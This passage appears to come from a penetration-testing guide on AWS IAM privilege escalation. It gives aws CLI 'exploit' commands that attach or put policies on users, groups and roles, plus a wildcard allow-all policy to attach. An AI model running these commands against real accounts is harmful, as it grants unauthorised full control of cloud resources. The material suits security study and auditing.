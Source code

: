 Allows attaching policies to users or groups, directly escalating privileges by inheriting the permissions of the attached policy.

**Exploit for User:**

```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```

**Exploit for Group:**

```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```

**Impact:** Direct privilege escalation to anything the policy grants.

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**

Permits attaching or putting policies to roles, users, or groups, enabling direct privilege escalation by granting additional permissions.

**Exploit for Role:**

```bash
bashCopy codeaws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```

**Exploit for Inline Policies:**

```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
    --policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
    --policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
    --policy-document file:///path/to/policy.json
```

You can use a policy like:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "*"
            ],
            "Resource": [
                "*"
            ]
        }
    ]
}
```
